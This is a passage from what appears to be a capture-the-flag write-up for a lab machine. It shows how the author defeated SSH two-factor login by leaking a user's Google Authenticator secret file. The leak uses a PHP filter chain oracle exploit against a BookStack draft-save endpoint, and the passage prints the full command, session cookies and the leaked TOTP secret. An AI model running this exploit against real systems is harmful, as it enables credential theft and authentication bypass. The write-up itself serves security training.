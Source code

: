### MFA Token

We can login via SSH using the `reader` user and the password `hiccup-publicly-genesis`, but it asks for an OTP code. An [article](https://www.digitalocean.com/community/tutorials/how-to-set-up-multi-factor-authentication-for-ssh-on-ubuntu-16-04) on how to setup multi-factor authentication on SSH describes using `Google's PAM`. The section on `Recovering Access` it talks about a secret key in the user's home folder at `/home/<USER>/.google_authenticator`. This secret key can be manually type it into an TOTP app to get the rotating codes.

The problem is that we don't have access to the home folder of `reader`. After being stuck for a while, the admin user also posted a page about `basic-backup-with-cp` where it makes a copy of the user's home directory in `/backup/home_backup`. 

![](/assets/images/writeups/checker/bookstack-backups.png)

I tried to see if there was a backup of this user's home folder at `/backup/home_backup/home/reader` and here I was able to leak the `TOTP_AUTH` token.

```bash
s3rp3nt@OMEN:~/php_filter_chains_oracle_exploit$ python3 filters_chain_oracle_exploit.py --target 'http://checker.htb/ajax/page/10/save-draft' --file '/backup/home_backup/home/reader/.google_authenticator' --verb PUT --parameter html --headers '{"X-CSRF-TOKEN":"L756lGhCCOxPAtJGbYnt2vWCqFP32qkPA1qZN9K7","Content-Type":"application/x-www-form-urlencoded","Cookie":"XSRF-TOKEN=eyJpdiI6Inc0YTlpRjRaVUlGanNLNWxuMTlYVlE9PSIsInZhbHVlIjoiMCt6T2E0enRlb0tzWExoQVQ2TmQrd2JJQkVqTkt0eXV5Mkcxbm5qQjFyR0l3bXMvZ3RLczBudThKSWNKSWxaUU0xM3ZXSHI1RXJQSlk4cVZLMHRLbXJBL0Fjc09zSmZ4UWlNTFlYTmIyR0dXRGZnMUd6N2RaYmgvMlBxaTF0RVIiLCJtYWMiOiJlZWVjYjA2MzljODk1YTI4OGYwNGRlMThlMWVjZDUyMmY4NDVhYjI0ZGRhMWM0YjQwMGY1YTIyZTA5YzJiMTNmIiwidGFnIjoiIn0%3D; bookstack_session=eyJpdiI6ImU3dng4c2lFbWRpTHVFQzZEbklVbWc9PSIsInZhbHVlIjoiUWNPWGtJZWs3Ym1oUWZvVDhrdnZVWXNoUGIvcy9md0xjcW1qd2JtRDlvUjlINUdwQ2ExcmdBTmJRcnIrT2dsdDhFMXNSZWNaUUMvZFpKaGtnbXBBZXY2eWQ0K1hnNGlUZCtSRXhOWnVYc2UydWV3eFFmS2FSSkY4RXFEeGtOWUciLCJtYWMiOiI3ZGU0MWMwYTg5NDZiZWI1YzYzNGQxMzk1ZTI3ZDc1ZGE4ZGIyMWY5MGZkYmRmOGYwMGM2NWE1NzFiMzhlNmRlIiwidGFnIjoiIn0%3D; teampass_session=j7355s4vo14islb0n6e34usucu; jstree_select=1; 558fa9b1ffa04df378a1f2bb1a4cceed1e7cc9d4adbbfe21e2=071b2fcb9049e82b06036864832ea6a9364392df2c1fe3f364"}'
[*] The following URL is targeted : http://checker.htb/ajax/page/10/save-draft
[*] The following local file is leaked : /backup/home_backup/home/reader/.google_authenticator
[*] Running PUT requests
[+] File /backup/home_backup/home/reader/.google_authenticator leak is finished!
RFZEQlJBT0RMQ1dGN0kyT05BNEs1TFFMVUUKIiBUT1RQX0FVVEgK
b'DVDBRAODLCWF7I2ONA4K5LQLUE\n" TOTP_AUTH\n'
```
